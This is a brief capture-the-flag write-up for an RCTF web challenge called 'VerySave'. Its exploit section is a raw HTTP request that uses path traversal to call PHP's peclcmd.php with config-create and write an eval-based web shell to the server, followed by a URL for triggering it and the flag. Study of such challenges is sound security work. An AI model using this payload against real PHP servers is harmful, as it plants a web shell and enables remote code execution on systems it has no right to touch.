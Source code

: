 # VerySave

## description

A default page

provide attatchment src.zip



## exp

```
GET /../usr/local/lib/php/peclcmd.php?+config-create+/srv/<?=eval($_POST[1]);?>/*+/srv/qqqq.php HTTP/1.1
Host: test.local:54120
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/92.0.4515.131 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Connection: close


```



visit http://test.local:54120/qqqq.php



## flag



RCTF{it's more dangerous than expected}